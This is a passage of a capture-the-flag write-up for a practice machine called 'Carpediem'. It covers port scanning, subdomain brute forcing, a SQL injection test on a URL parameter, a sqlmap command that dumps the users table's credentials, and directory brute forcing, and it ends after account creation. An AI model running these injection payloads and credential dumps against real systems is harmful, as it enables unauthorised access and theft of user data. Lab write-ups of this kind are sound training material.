 <h2>Target: 10.10.11.167 Carpediem</h2>

<b>Initial Access:</b><br>
nmap -Pn 10.10.11.167 --min-rate=5000 -p-|grep open|awk -F '/' '{print $1}'|tr '\n' ',' <br>
Output shows open ports 22 and 80.

Enumerate these open ports further with nmap: <br>
nmap -Pn 10.10.11.167 --min-rate=5000 -p 22,80 -sC -sV -oN nmap.carpediem <br>
Output shows:

![image](https://user-images.githubusercontent.com/93153300/204039179-78ce0596-f325-476c-ad5f-09411b9a88f6.png)
 
Visiting port 80 shows: 
 
![image](https://user-images.githubusercontent.com/93153300/204039191-62a499be-cd98-45b2-9933-bf937e425914.png)

The site shows that it uses a domain name of Carpediem.htb.  Before checking the website ‘Carpediem.htb’  add into the file /etc/hosts: 10.10.11.167  Carpediem.htb <br>
Visiting Carpediem.htb shows the same exact web page.   The ‘subscribe’ doesn’t work, and there’s not much left to do here.  Run subdomain brute force with wfuzz:<br>
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.carpediem.htb" -u "http://Carpediem.htb" --hh 2875

Wfuzz found a subdomain: portal.carpediem.htb.  Add ‘portal.carpediem.htb’ to /etc/hosts.   Visiting the page shows:

![image](https://user-images.githubusercontent.com/93153300/204039218-c6732449-649b-4e3f-9d21-bf298e291aff.png)
 
Click on ‘Categories’ dropdown (top of the page) and then click on ‘Adventure Bike’.  After clicking on ‘Adventure Bike’, the page shows: 

![image](https://user-images.githubusercontent.com/93153300/204039233-bad863b3-9b6a-40a1-ba86-1fd107a5fbc5.png)

Test for sql injection on query parameter ‘c=’  in the url with query: http://portal.carpediem.htb/?p=bikes&c=’or (select ‘a’)=’a’-- -

The page strangely returns a string of ‘Scooter’:

![image](https://user-images.githubusercontent.com/93153300/204039241-197b8aa1-eca9-4743-956b-494e2ffd09a7.png)

This is likely vulnerable to sql injection.  To save time, use sqlmap for further testing and exploitation:  
sqlmap -u 'http://portal.carpediem.htb/?p=bikes&c=a' -p c --batch --cookie "PHPSESSID=740b4def22406b3f7938eb27594e43b4" --dbs -D portal --tables -T users --columns -C username,password --dump

Sqlmap found username ‘admin’ and password hash ‘b723e511b084ab84b44235d82da572f3’.<br> 
Using john or hashcat to try and crack the hash fails.  Seems like a rabbit hole, let’s go back and enumerate some more.  Run directory brute force on the site: dirsearch -r -u http://portal.carpediem.htb

Dirsearch found a directory ‘/admin’ that looks interesting.  Visiting the ‘/admin’ directory shows ‘Access Denied!’: 

![image](https://user-images.githubusercontent.com/93153300/204039291-ac710c72-89af-4bca-b96a-fa05029e12e1.png)

We can’t access the ‘/admin’ directory.  Going back to the site, click on ‘Login’ and then ‘Create an Account’.  After creating an account and logging in the page shows:
